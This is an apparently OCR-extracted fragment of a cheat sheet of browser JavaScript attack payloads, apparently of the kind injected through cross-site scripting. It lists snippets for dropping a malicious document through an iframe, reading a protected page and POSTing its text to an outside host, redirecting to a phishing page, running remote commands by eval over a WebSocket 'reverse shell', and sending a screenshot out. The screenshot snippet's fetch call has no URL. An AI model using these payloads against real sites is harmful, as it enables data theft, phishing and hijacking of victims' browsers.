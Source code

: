   **Macros - Malicious Macros**
   ```
       f=document.createElement('iframe')
       f.src='https://example.com/important.doc'
       document.body.appendChild(f)
   ```

  **Protected Pages**
   ```
       fetch('/page')
         .then((p)=>p.text()
           .then((t)=>
             fetch('https://example.com', {
               method:'POST',
               headers:{
                 'Content-Type':
                   'application/json'
               },
               body:JSON.stringify({p:t})
             }
           )
         )
       )
   ```
   
  **Redirection**
   ```Option1
       window.location = 'https://example.com/phishing-page'
   ```
   
  **Reverse Shell**
   ```Option1
       s=new WebSocket('wss://example.com')
       s.onmessage=(e)=>eval(e.data)
   ```

  **Screenshots**
   ```
       html2canvas(document.body)
         .then((c)=>fetch(
           {
             method: 'POST',
             headers: {
               'Content-Type':'application/json'
             },
             body: JSON.stringify({
               img: c.toDataURL()
             })
           }
                    )
         )
   ```


------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
  